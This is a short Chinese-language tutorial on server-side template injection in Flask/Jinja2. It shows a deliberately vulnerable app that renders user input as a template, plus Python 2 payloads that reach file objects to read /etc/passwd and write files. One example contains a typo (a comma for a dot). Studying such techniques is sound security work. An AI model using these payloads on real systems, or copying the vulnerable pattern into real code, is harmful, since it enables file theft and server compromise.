 # Flask ssti

## FLASK模板（jinja2框架)

这可能是你将会碰到的最多的模板


弄懂这个是接下来几个模板的比较重要的基础。（所以可能会啰嗦）


模板基于python,可能是py2也可能是py3，貌似py2会多一点。



## Flask


如果渲染的模版内容受到用户的控制。。。。


```plain
from flask import Flask, request
from jinja2 import Template
app = Flask(__name__)
@app.route("/")
def index():
name = request.args.get('name', 'guest')
t = Template("Hello " + name)
return t.render()
if __name__ == "__main__":
app.run();

```



我们可以控制的参数显然是name


提交 ?name=guest.{{7*7}}


会发现被计算成了49


又或者是{{‘abcd’,upper()}}(本质上还是py)


会输出ABCD


下面开始加速：


py2:


```plain
#读文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
#写文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}

```
